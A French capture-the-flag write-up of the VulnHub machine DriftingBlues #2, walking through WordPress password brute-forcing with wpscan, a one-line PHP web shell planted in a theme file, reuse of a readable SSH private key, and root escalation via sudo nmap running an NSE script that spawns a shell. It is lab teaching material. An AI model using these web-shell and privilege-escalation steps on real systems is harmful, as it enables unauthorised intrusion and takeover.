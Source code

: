 ```yaml
---
title: Solution du CTF DriftingBlues #2 de VulnHub
tags: [CTF, VulnHub]
---
```


Intro
-----

Après [le précédent opus](http://devloop.users.sourceforge.net/index.php?article249/solution-du-ctf-driftingblues-1-de-vulnhub) j'attaque donc ce second épisode des CTF DriftingBlues, toujours téléchargeable sur VulnHub  

```plain
PORT   STATE SERVICE VERSION 
21/tcp open  ftp     ProFTPD 
| ftp-anon: Anonymous FTP login allowed (FTP code 230) 
|_-rwxr-xr-x   1 ftp      ftp       1403770 Dec 17  2020 secret.jpg 
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 6a:fe:d6:17:23:cb:90:79:2b:b1:2d:37:53:97:46:58 (RSA) 
|   256 5b:c4:68:d1:89:59:d7:48:b0:96:f3:11:87:1c:08:ac (ECDSA) 
|_  256 61:39:66:88:1d:8f:f1:d0:40:61:1e:99:c5:1a:1f:f4 (ED25519) 
80/tcp open  http    Apache httpd 2.4.38 ((Debian)) 
|_http-title: Site doesn't have a title (text/html). 
|_http-server-header: Apache/2.4.38 (Debian)
```

Il y a un serveur FTP qui autorise les connexions anonymes comme nous le montre Nmap. Toutefois avec Filezilla on voit qu'on ne peut pas remonter dans l'arborescence. On a donc que ce fichier *secret.jpg* que l'on peut récupérer.  

Il s'agit d'une photo d'un guitariste et un coup d'éditeur hexa ou la récupération des métadonnées EXIF avec le premier logiciel de traitement photo trouvé ne sortent rien d'intéressant.  

Une recherche d'image inversée nous apprend que le guitariste est *Otis Rush*. Potentiellement un indice.  

Utiliser les outils de stéganographie est souvent une plaie. Le code est ancien et ne compile pas forcément sur des machines récentes. J'ai trouvé [une image Docker](https://hub.docker.com/r/dominicbreuker/stego-toolkit)
 qui contient les binaires utiles, c'est l'occasion d'essayer :  

```plain
$ docker run -it --rm -v $(pwd):/data dominicbreuker/stego-toolkit /bin/bash
root@eb06c29f1622:/data# stegdetect secret.jpg  
secret.jpg : negative
```

Oups... Les autres outils présents n'ont pas été plus utiles. Passons à autre chose.  

La force
--------

Via énumération sur le serveur web on trouve très vite un Wordpress à l'adresse */blog*. Les posts présents ont tous été créés par un utilisateur baptisé *albert*.  

Vu que j'avais du temps AFK j'ai lancé wpscan pour bruteforcer le compte avec la wordlist rockyou :  

```plain
$ docker run -v /tools/wordlists/:/data -it --rm wpscanteam/wpscan --url http://192.168.56.7/blog/ -U albert -P /data/rockyou.txt
--- snip ---
[!] Valid Combinations Found: 
 | Username: albert, Password: scotland1
```

Je suppose qu'il y avait un indice avec le guitariste mais même en regardant sa page wikipedia pas de rapport à L'Ecosse, peut être qu'un des posts en faisait mention :-/   

Quoiqu'il en soit une fois connecté sur l'interface admin du Wordpress on va dans *Appeareance* puis *Theme Editor* pour éditer l'un des fichiers PHP du thème courant (*footer.php* pour moi) :  

```php
<?php if (isset($_GET["cmd"])) { system($_GET["cmd"]); } ?>
```

Comme ça je peux passer des commandes sur le Wordpress et obtient l'output en bas de page.  

Mercury
-------

Un des premiers réflexes est de regarder le fichier */etc/passwd* qui nous renseigne sur les utilisateurs présents :  

```plain
freddie:x:1000:1000:freddie,,,:/home/freddie:/bin/bash
```

Cet utilisateur dispose du flag *user.txt* qui ne nous est pas lisible. En revanche sa clé privée SSH l'est !  

```plain
www-data@driftingblues:/var/www/html/blog$ ssh -i /home/freddie/.ssh/id_rsa freddie@127.0.0.1 
Could not create directory '/var/www/.ssh'. 
load pubkey "/home/freddie/.ssh/id_rsa": Permission denied 
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established. 
ECDSA key fingerprint is SHA256:/+Mlgo9EqzVybvI0rol0jnjKctAvhqRyag+YeY+IMrs. 
Are you sure you want to continue connecting (yes/no)? yes 
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts). 
Linux driftingblues 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64 

The programs included with the Debian GNU/Linux system are free software; 
the exact distribution terms for each program are described in the 
individual files in /usr/share/doc/*/copyright. 

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent 
permitted by applicable law. 
freddie@driftingblues:~$ cat user.txt  
flag 1/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 
```

GTFO
----

```plain
freddie@driftingblues:~$ sudo -l 
Matching Defaults entries for freddie on driftingblues: 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin 

User freddie may run the following commands on driftingblues: 
    (root) NOPASSWD: /usr/bin/nmap
```

*Freddie* peut utiliser Nmap en tant que root sans donner de mot de passe. Pratique mais faillible [d'après GTFObins](https://gtfobins.github.io/gtfobins/nmap/) :  

```plain
freddie@driftingblues:~$ echo 'os.execute("/bin/sh")' > command.py
freddie@driftingblues:~$ sudo /usr/bin/nmap --script=command.py 
Starting Nmap 7.70 ( https://nmap.org ) at 2022-01-19 13:30 CST 
NSE: Warning: Loading 'command.py' -- the recommended file extension is '.nse'. 
# uid=0(root) gid=0(root) groups=0(root) 
# # root.txt 
# flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations!
```

Cette exploitation cache l'input d'où l'absence des commandes dans l'affichage précédent.  


*Published January 19 2022 at 21:01*
